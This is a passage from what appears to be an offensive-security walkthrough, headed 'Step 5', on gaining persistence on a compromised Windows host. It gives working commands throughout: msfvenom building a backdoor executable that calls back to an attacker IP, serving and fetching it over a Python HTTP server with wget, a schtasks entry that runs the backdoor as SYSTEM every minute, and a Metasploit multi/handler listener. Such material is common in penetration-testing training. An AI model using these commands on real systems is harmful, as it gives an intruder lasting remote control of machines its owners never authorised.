 # Step 5: Nevertheless, we persist
<img width="300" src="https://github.com/user-attachments/assets/2bf3f739-0a2d-416e-b9c7-b835e2402f73" />


**Create your evil gift:**

```bash
msfvenom -p <payload> lhost=<ip> lport=31337 -f exe -o backdoor.exe
```

**Get it on target:**

-   Upload with Meterpreter
-   Or spin up Python HTTP:

    ```bash
    python3 -m http.server 8000 wget http://<ip>:8000/backdoor.exe
    ```

**Make Windows do the dirty work:**

```bash
schtasks /create /tn "lolnope" /tr c:\backdoor.exe /ru SYSTEM /sc minute /mo 1
```

_(If SYSTEM cries, just run it as the compromised user instead.)_

**Listener setup:**

-   Fire up `multi/handler`.
-   Payload + port must match or you’ll be sitting there like a clown.
